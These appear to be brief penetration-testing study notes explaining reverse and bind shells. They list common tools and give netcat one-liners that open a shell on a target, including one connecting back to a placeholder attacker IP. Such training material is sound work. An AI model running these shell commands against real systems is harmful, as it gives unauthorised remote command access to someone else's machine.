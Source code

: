 # What is a shell?
In simple terms, we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).

- Netcat
- socat
- Metasploit -- multi/handler
- Msfvenom

 At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.
 #### Reverse Shell
 - Reverse shells are when the target is forced to execute code that connects back to your computer.
- On the attacking machine:
```
sudo nc -lvnp 443
```
- On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
#### Blind shell
- Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.
- On the target:
```
nc -lvnp <port> -e "cmd.exe"
```
- On the attacking machine:
```
nc MACHINE_IP <port>
```
* Shells can be either interactive or non-interactive.

